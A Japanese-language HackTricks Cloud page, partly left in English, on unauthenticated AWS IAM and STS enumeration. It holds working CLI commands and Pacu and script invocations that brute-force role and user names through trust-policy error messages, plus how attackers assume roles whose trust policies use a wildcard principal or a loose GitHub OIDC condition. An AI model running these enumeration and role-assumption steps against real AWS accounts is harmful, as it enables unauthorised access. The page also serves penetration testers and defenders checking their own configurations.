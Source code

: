 # AWS - IAM & STS 未認証列挙

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## アカウント内のロールとユーザー名を列挙する

### ~~ロールのブルートフォース~~

{% hint style="danger" %}
**この技術はもう機能しません**。ロールが存在するかどうかにかかわらず、常にこのエラーが表示されます：

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

これを**実行してテストできます**：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

必要な権限なしに**ロールを引き受けようとすると**、AWSエラーメッセージが表示されます。たとえば、無許可の場合、AWSは次のように返すことがあります：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
このメッセージはロールの存在を確認しますが、そのロールの引き受けポリシーがあなたの引き受けを許可していないことを示しています。対照的に、**存在しないロールを引き受けようとすると異なるエラーが発生します**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
興味深いことに、**既存のロールと存在しないロールを区別する**この方法は、異なるAWSアカウント間でも適用可能です。有効なAWSアカウントIDとターゲットワードリストを使用することで、アカウント内に存在するロールを列挙することができ、固有の制限に直面することはありません。

この[スクリプトを使用して潜在的なプリンシパルを列挙](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum)することができます。

### 信頼ポリシー: ブルートフォースクロスアカウントロールとユーザー

**IAMロールの信頼ポリシーを構成または更新することは、そのロールを引き受けることが許可されているAWSリソースまたはサービスを定義し、一時的な資格情報を取得することを含みます**。ポリシー内で指定されたリソースが**存在する**場合、信頼ポリシーは**正常に**保存されます。しかし、リソースが**存在しない**場合、**エラーが生成され**、無効なプリンシパルが提供されたことを示します。

{% hint style="warning" %}
そのリソースでは、クロスアカウントロールまたはユーザーを指定することができます:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

これはポリシーの例です:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

それは、**存在しないロールを使用した場合**に見つかる**エラー**です。ロールが**存在する**場合、ポリシーは**エラーなし**で**保存**されます。（エラーは更新用ですが、作成時にも機能します）

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

役割が不適切に構成されており、誰でもそれを引き受けることができる場合:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## 第三者 OIDC フェデレーション

Imagine that you manage to read a **Github Actions workflow** that is accessing a **role** inside **AWS**.\
This trust might give access to a role with the following **trust policy**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
この信頼ポリシーは正しいかもしれませんが、**より多くの条件が欠けている**ため、信頼しないべきです。\
これは、前のロールが**Github Actionsの誰でも**引き受けることができるからです！条件には、組織名、リポジトリ名、環境、ブランチなどの他の要素も指定する必要があります...

もう一つの潜在的な誤設定は、次のような**条件を追加する**ことです：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
注意してください **コロン** (:) の前の **ワイルドカード** (*)。**org\_name1** のような組織を作成し、Github Action から **ロールを引き受ける** ことができます。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS ハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP ハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**Telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を送信してください。**

</details>
{% endhint %}
